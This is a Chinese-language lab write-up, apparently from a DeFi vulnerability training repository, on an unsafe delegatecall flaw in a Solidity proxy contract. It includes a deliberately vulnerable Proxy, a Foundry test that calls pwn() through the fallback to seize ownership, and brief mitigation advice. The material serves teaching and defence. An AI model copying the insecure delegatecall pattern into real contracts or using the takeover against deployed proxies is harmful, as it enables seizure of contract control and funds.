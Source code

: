 # 不安全委托调用
[Delegatecall.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Delegatecall.sol)  
**名称：** 不安全委托调用漏洞  
**描述：**  
Proxy合约中的变量owner被操控漏洞是智能合约设计中的缺陷，这种缺陷允许攻击者操纵Proxy合约的owner，并且onwer被硬编码为0xdeadbeef。  
这个漏洞的产生是由于在Proxy合约的fallback函数中使用了delegatecall。   
delegatecall允许攻击者在Proxy合约上下文中，调用Delegate合约中的pwn()函数，从而改变Proxy合约状态变量owner的值。  
这允许智能合约在运行时，从不同的地址动态加载代码。  

**场景：**  
Proxy合约是为了帮助用户调用逻辑合约而设计的。
Proxy合约的owner被硬编码为0xdeadbeef。  
你可以操纵代理合约的owner吗？  


**解决方法：**  
为了缓解Proxy合约所有者被操纵漏洞，除非明确要求delegatecall，否则不要使用。即使要使用时也要确保使用delegatecall的安全性。  
如果对于合约的功能而言委托调用是必要的，务必验证和清理输入，以避免出现意外行为。  


**Proxy 合约：**  
```
contract Proxy {
    address public owner = address(0xdeadbeef); // slot0
    Delegate delegate;

    constructor(address _delegateAddress) public {
        delegate = Delegate(_delegateAddress);
    }

    fallback() external {
        (bool suc, ) = address(delegate).delegatecall(msg.data); // 漏洞
        require(suc, "Delegatecall failed");
    }
}
```     


**如何测试：**  

forge test --contracts src/test/Delegatecall.sol-vvvv 
```
// 测试使用delegatecall场景的函数
function testDelegatecall() public {
    // 初始化一个新的委托合约，即“逻辑合约”。
    DelegateContract = new Delegate(); 
    // 初始化一个新的代理合约，将委托合约的地址传递给构造函数。这就是“代理合约”。
    proxy = new Proxy(address(DelegateContract)); 

    // 记录Alice的地址。
    console.log("Alice address", alice);
    // 记录代理合约的所有者。
    console.log("DelegationContract owner", proxy.owner());

    // 记录更改代理合约所有者操作的开始
    console.log("Change DelegationContract owner to Alice...");
    // 将msg.sender设置为Alice。
    vm.prank(alice);
    // 通过delegatecall 调用Delegate合约的pwn函数.这就是漏洞。
    address(proxy).call(abi.encodeWithSignature("pwn()")); 
    // Proxy.fallback()将委托调用Delegate.pwn(), 使得Alice成为代理合约的所有者。

    // 记录代理合约的新所有者。
    console.log("DelegationContract owner", proxy.owner());
    // 记录漏洞攻击完成。
    console.log(
        "Exploit completed, proxy contract storage has been manipulated"
    );
}

// Delegate 合约, 包含了可以通过delegatecall调用的代码。
contract Delegate {
    // 合约的所有者。
    address public owner; // slot0

    // pwn 函数, 将合约的所有者设置为消息发送者。
    function pwn() public {
        owner = msg.sender;
    }
}
```  
**红框：** 攻击成功，owner已经更改
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F3d7b2665-e934-4b5a-b9ec-1302656f7da8%2FUntitled.png?table=block&id=6be82235-a425-44a7-9174-c6bfb0e027ec&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)

